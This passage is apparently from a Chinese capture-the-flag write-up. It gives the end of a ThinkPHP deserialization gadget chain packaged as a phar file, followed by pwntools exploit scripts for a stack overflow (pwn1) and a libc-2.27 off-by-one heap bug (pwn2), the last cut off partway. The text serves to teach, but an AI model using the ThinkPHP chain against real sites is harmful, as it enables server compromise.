 ```
            $this->tag = 'xxx';
        }

    }
}

namespace {
    $Memcached = new think\session\driver\Memcached(new \think\cache\driver\File());
    $Output = new think\console\Output($Memcached);
    $model = new think\db\Query($Output);
    $HasOne = new think\model\relation\HasOne($model);
    $window = new think\process\pipes\Windows(new think\model\Pivot($Output,$HasOne));

    $phar = new Phar("phar.phar"); 
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($window);        
    $phar->addFromString("test.txt", "test");        
    $phar->stopBuffering();
}
```
# Pwn

### 【pwn1】

pwn签到题，唯一有点坑就是在出函数时并不仅仅是leave；ret，而是多出了两行汇编代码。因此需要我们分析和调试一下。![图片](https://img-blog.csdnimg.cn/img_convert/cf6510bae78f50b6ac5c90f25444c0a7.webp?x-oss-process=image/format,png)

exp

```
from pwn import *
io=process('pwn1')
io.recvuntil(":")
stack = int(io.recv(10),16)
gdb.attach(io)
io.sendline('a'*0x30+p32(0x8048540)+p32(stack+0x34))
io.interactive()
```

### 【pwn2】

libc-2.27的off-by-one，细心一点就能发现for循环这块会让我们多输入一个字节。

![图片](https://img-blog.csdnimg.cn/img_convert/75e187221d88fa32723525ed32f18090.webp?x-oss-process=image/format,png)

exp

```
from pwn import *
io=process('./pwn2')
elf=ELF('./pwn2')
libc=elf.libc
#libc=ELF('./libc-2.27.so')
context.log_level='debug'

def add(size,content):
 io.sendlineafter('Choice: ','1')
 io.sendlineafter('size: ',str(size))
 io.sendafter('content: ',content)

def edit(index,content):
 io.sendlineafter('Choice: ','2')
 io.sendlineafter('idx: ',str(index))
```